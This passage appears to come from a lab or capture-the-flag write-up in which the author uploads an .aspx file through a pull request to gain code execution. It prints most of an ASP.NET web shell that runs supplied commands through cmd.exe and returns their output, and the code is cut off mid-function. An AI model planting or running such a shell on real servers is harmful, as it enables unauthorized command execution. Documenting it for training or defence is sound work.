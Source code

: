 ![](../../.gitbook/assets/11-test-fixed-pull.png)

Next I created a new pull request, trying to upload an `.aspx` file to see if I could get code execution.

```aspnet
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
```